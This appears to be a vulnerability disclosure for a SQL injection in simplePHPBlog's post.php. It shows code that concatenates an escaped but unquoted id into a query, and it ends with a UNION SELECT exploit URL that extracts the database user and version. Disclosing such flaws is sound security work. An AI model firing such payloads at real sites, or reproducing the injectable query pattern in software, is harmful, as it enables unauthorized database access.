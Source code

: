 simplePHPBlog SQL injection

##Vulnerability link##

https://github.com/ajamous/simplePHPBlog

##Vulnerability details##

post.php

	<?php
	    require 'config/db.php';
	    //Get ID of POST
	    $id = mysqli_real_escape_string($conn, $_GET['id']);
	    //create query
	    $query = 'SELECT * FROM posts WHERE id = ' .$id;
	    // get the results
	    $result = mysqli_query($conn, $query);
	    // Fetch Data from database
	    $post = mysqli_fetch_assoc($result);
	    // var_dump is used to test out the query results - enable if needed only
	    //var_dump($posts);
	    // Free the results from memory
	    mysqli_free_result($result);
	    // close connection with MySQL database once you have retreived the data
	    mysqli_close($conn);
	?>

In this code `id` use `mysqli_real_escape_string` but in sql query `$query = 'SELECT * FROM posts WHERE id = ' .$id;` there is no single quotes to use in sql.


	--
	-- Table structure for table `posts`
	--
	
	CREATE TABLE `posts` (
	  `id` int(11) NOT NULL,
	  `title` varchar(255) NOT NULL,
	  `body` text NOT NULL,
	  `author` varchar(255) NOT NULL,
	  `created_at` timestamp NOT NULL DEFAULT CURRENT_TIMESTAMP
	) ENGINE=InnoDB DEFAULT CHARSET=utf8;


 
##exploit:##

http://target/post.php?id=-1 union select 1,2,user(),version(),5

